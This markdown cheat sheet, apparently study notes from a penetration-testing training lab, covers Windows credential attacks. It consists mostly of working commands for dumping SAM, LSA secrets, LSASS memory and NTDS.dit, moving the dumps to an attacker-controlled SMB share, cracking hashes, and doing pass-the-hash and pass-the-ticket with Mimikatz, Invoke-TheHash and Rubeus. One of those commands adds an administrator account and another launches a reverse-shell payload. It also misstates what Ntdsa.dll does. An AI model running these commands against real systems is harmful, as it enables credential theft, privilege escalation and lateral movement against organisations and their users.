

### Windows Authentication Process Overview



### Local Security Authority Subsystem Service - LSASS

| **Authentication Packages**   | **Description**   |
| --------------|-------------------|
|   Lsasrv.dll    |	The LSA Server service both enforces security policies and acts as the security package manager for the LSA. The LSA contains the Negotiate function, which selects either the NTLM or Kerberos protocol after determining which protocol is to be successful. | 
|   Msv1_0.dll  |	Authentication package for local machine logons that don't require custom authentication.   |
|   Samsrv.dll	|   The Security Accounts Manager (SAM) stores local security accounts, enforces locally stored policies, and supports APIs.    |
|    Kerberos.dll   |	Security package loaded by the LSA for Kerberos-based authentication on a machine.  |
|   Netlogon.dll    |	Network-based logon service.    |
|    Ntdsa.dll  |  This library is used to create new records and folders in the Windows registry.  |


## Attacking SAM

| **Registry Hive**   | **Description**   |
| --------------|-------------------|
|   hklm\sam    |	Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. | 
|   hklm\system  |	Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.   |
|   hklm\security	|   Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.    |

### Dumping & Cracking SAM (Local)
```powershell
## Copy registry hive
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save

## On our local machine
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/htb-ac-1137601/Desktop/

## Move copied hive back for local cracking
move sam.save \\10.10.15.16\CompData
move security.save \\10.10.15.16\CompData
move system.save \\10.10.15.16\CompData

## Dump hive
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

## Hashcat crack hive
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

### Dumping SAM (Remotely)

```bash
## Dump LSA Secrets
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa

## Dump SAM Secrets
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

## Attacking LSASS

### Dumping LSASS

```powershell
## Find LSASS process 
tasklist /svc       # CMD
Get-Process lsass   # Powershell

## Create lsass dump file
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full

## Extract credentials 
pypykatz lsa minidump /home/peter/Documents/lsass.dmp
```

## Attacking Active Directory (AD)

### Attack Flow (Require Privilege Escalation)
```powershell
## Check privileges
net localgroup
net user

## Create Shadow Copy of C:
vssadmin CREATE SHADOW /For=C:

## Copy NTDS.dit from VSS
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

## Transferring NTDS.dit to Attack Host
cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData
```

### Alternative Remote Attack Flow

```bash
## Use CrackMapExec to automate the above steps
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

## Credential Hunting

### Ussing Lazagne
```powershell
start lazagne.exe all
```

### Using findstr

```powershell
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

## Pass the Hash

### Mimikatz

```powershell
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

### Powershell Invoke-TheHash 

```powershell
cd C:\tools\Invoke-TheHash\
Import-Module .\Invoke-TheHash.ps1

## Invoke-TheHash with SMB
Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

## Invoke-TheHash with WMI
Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e $reverse_shell_payload"
```

### Limitations

_UAC (User Account Control) limits local users' ability to perform remote administration operations. When the registry key HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy is set to 0, it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks. Setting it to 1 allows the other local admins as well._

_If the registry key FilterAdministratorToken (disabled by default) is enabled (value 1), the RID 500 account (even if it is renamed) is enrolled in UAC protection. This means that remote PTH will fail against the machine when using that account._

## Pass the Ticket

- The TGT - Ticket Granting Ticket is the first ticket obtained on a Kerberos system. The TGT permits the client to obtain additional Kerberos tickets or TGS.

- The TGS - Ticket Granting Service is requested by users who want to use a service. These tickets allow services to verify the user's identity.


### Mimikatz

```powershell
privilege::debug

## Harvest all tickets 
sekurlsa::tickets /export

## Extract Kerberos keys
sekurlsa::ekeys

## Pass the Key/OverPass the Hash
## Converts hash/key for domain-joined user into a full TGT
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f

## Pass the Ticket
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```

```powershell
## Windows Pass the Ticket for Lateral Movement
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"

## Connect to target machine
Enter-PSSession -ComputerName DC01
```

### Rubeus

```powershell
## Harvest all tickets
Rubeus.exe dump /nowrap

## Pass the Key/OverPass the Hash
## Rubeus does not require administrative rights compared to Mimikatz
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap

Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt

## Pass the Ticket
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi

## Alternatively, use base64 output from Rubeus or convert .kirbi to base64 to PtT
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))

Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV...
```

```powershell
## Windows Pass the Ticket for Lateral Movement
## Creates sacrificial process/logon session (type 9)
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show

Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt

Enter-PSSession -ComputerName DC01
```

## Useful Repositories

https://github.com/ihebski/DefaultCreds-cheat-sheet
\
https://github.com/urbanadventurer/username-anarchy
